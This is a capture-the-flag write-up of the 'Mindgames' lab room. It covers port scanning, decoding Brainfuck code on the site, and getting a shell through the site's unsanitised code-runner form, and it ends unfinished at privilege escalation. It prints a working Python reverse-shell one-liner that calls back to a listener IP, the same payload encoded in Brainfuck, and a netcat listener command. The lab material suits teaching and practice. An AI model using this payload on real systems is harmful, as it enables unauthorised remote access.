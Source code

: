 # Mindgames write-up.
![](/img/room.JPG)
HINT: No hints. Hack it. Don't give up if you get stuck, enumerate harder.

## Preparation:
Set the IP address as an environment variable in a terminal to make the process simple.

`export IP=10.10.242.185`

Access the IP variable with: $IP

## Reconnaissance:
Scan the IP address with nmap.

`nmap -A -Pn -sV -p- $IP -v -T 4`

**Result:**

![](/img/res-1.JPG)

So, we have ports 22 and 80 with services as ssh/web server.

## Enumeration:
Let's see what's on port 80's initial page.

`curl http://$IP -v`

**Result:**

![](/img/res-2.JPG)

Possible Pivot Routes/Points Of Interest:

- /main.js
- /main.css

**Observations:**

We have references to:
* Programming
* Hello, World
* Fibonacci
* Code that contains ".-+[]<>"

This code looks familiar...

I'll assess the code sequence/pattern with a [cipher-identifier](https://www.dcode.fr/cipher-identifier)

The code has been identified as "Brainfuck".

**Info:**

Kind of makes sense since the room's name is mindgames...

We'll press on with decoding.

* Hello, World: `print("Hello, World")`
* Fibonacci:    `def F(n): if n <= 1 1: return f(n-1)+f(n-2) for i in range(10): print(f(i))`

Nothing looks interesting here. Just some standard code running on an interpreter.

Based on the initial webpage having a "Try before you buy" feature that took *trusted*
input from the user, we can assume this may be our first attack point as it would be a simple
web app using the Brainfuck code unfiltered/unsanitized as source-code input.

The code language that needs wrapping with Brainfuck is Python, this is assumed based on the "Hello, World" code that was decoded earlier.

We'll begin by generating a Python reverse shell over at: https://www.revshells.com, then encode it with Brainfuck at: https://www.splitbrain.org/_static/ook/. With this, we will try for a reverse shell first.

**The Setup:**

Python Reverse Shell: 

`import os,pty,socket;s=socket.socket();s.connect(("10.10.52.202",4444));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("/bin/bash")`

Brainfuck wrapped:

`			+++++ +++++ [->++ +++++ +++<] >++++ +.+++ +.+++ .-.++ +.++. <++++ +++++
            [->-- ----- --<]> ---.< +++++ +++[- >++++ ++++< ]>+++ +++++ +++++ ++.++
            ++.<+ +++++ ++[-> ----- ---<] >---- ---.< +++++ +++[- >++++ ++++< ]>+++
            +.+++ +.+++ ++.<+ +++++ ++[-> ----- ---<] >---- ----- ----. <++++ ++++[
            ->+++ +++++ <]>++ +++++ .---- .<+++ [->-- -<]>- --.++ +++++ +.--- ---.<
            +++[- >+++< ]>+++ +++.< +++++ ++[-> ----- --<]> ----- ---.< +++++ ++[->
            +++++ ++<]> +++++ ++.<+ +++++ +[->- ----- -<]>- ----. <++++ +++[- >++++
            +++<] >++++ +.--- -.<++ +[->- --<]> ---.+ +++++ ++.-- ----. <+++[ ->+++
            <]>++ ++++. <++++ ++++[ ->--- ----- <]>-- ----. <++++ ++++[ ->+++ +++++
            <]>++ +++.- ---.< +++[- >---< ]>--- .++++ ++++. ----- -.<++ +[->+ ++<]>
            +++++ +.<++ +++++ +[->- ----- --<]> ----- ----- --.+. <++++ [->++ ++<]>
            ++.<+ +++++ +[->+ +++++ +<]>+ +++++ +.<++ +++++ +[->- ----- --<]> -----
            .<+++ ++++[ ->+++ ++++< ]>+++ +.<++ +[->+ ++<]> +++.- ..--- ----- -.--.
            <++++ [->++ ++<]> +.<++ +++++ +[->- ----- --<]> ----- ----- --..- -----
            .<+++ [->++ +<]>+ +++++ .-.-- .+++. -.--. +++++ ++.-- -.--- -.+++ +.--.
            ++.<+ +++[- >---- <]>.< +++[- >+++< ]>+.+ +++++ ++... .<+++ [->-- -<]>-
            -..<+ +++[- >++++ <]>++ .<+++ ++[-> +++++ <]>++ +++++ .<+++ +[->+ +++<]
            >++++ .++++ .<+++ +++++ [->-- ----- -<]>- ----. <++++ +++[- >++++ +++<]
            >++++ +.<++ ++[-> ++++< ]>+.- ----. <++++ +++[- >---- ---<] >---- -----
            ----. <+++[ ->--- <]>-. <++++ ++++[ ->+++ +++++ <]>++ +++++ ++++. <++++
            ++++[ ->--- ----- <]>-- ---.< +++++ ++[-> +++++ ++<]> +++++ ++.++ +.+++
            .---- ---.+ +++++ +++.+ .<+++ +++++ [->-- ----- -<]>- ----- -.+.+ ++.<+
            +++++ +[->+ +++++ +<]>+ +++++ +++.< +++++ ++[-> ----- --<]> ----- -----
            --.<+ +++++ +[->+ +++++ +<]>+ +++++ +++++ +.+++ +++++ +.+++ .<+++ +++++
            +[->- ----- ---<] >-.<+ +++++ ++[-> +++++ +++<] >++++ ++.<+ +++++ ++[->
            ----- ---<] >---- --.<+ +++++ ++[-> +++++ +++<] >++++ +++++ .++++ +.<++
            +++++ +[->- ----- --<]> ----- -.+++ +++++ .---- .++++ +.--- --.++ ++++.
            ----- ----. <++++ +++[- >++++ +++<] >+++. <++++ +[->- ----< ]>--- -----
            -.<++ +++++ [->++ +++++ <]>++ ++.++ ++.++ +++.< +++++ +++[- >---- ----<
            ]>--- ----- ---.< +++++ +++[- >++++ ++++< ]>+++ ++.-- -.<++ +[->- --<]>
            ----- -.<++ ++[-> ++++< ]>+++ +++.- ----- ---.< +++++ +++[- >---- ----<
            ]>--- ---.- ----- .<+++ [->++ +<]>+ +++.< +++++ ++[-> +++++ ++<]> ++.++
            +++++ .++++ +.<++ +++++ [->-- ----- <]>-- ----- ----- --.<+ +++++ +[->+
            +++++ +<]>+ +.-.< ++++[ ->+++ +<]>+ +.<++ +[->- --<]> --.<+ +++++ ++[->
            ----- ---<] >---- --.++ +++++ .<`

rlwrap listner:

`rlwrap -cAr nc -lvnp 4444`

We need to have our listener running first, then submit the wrapped code into the
"Try before you buy" submission form. 

Now submit the encoded reverse shell in the submission form with your netcat listener running and you should get the shell pop.

**Result:**

![](/img/res-4.JPG)

We now have shell access! Let's look for the user.txt file.

Our initial directory path is "/home/mindgames/webserver", so goto the user's home "/home/mindgames". 

Perform a directory listing and find the "user.txt" file.

![](/img/res-5.JPG)

## Flag 1:

![](/img/flag1.JPG)

## Privilege Escalation:

To be continued...

**Result:**
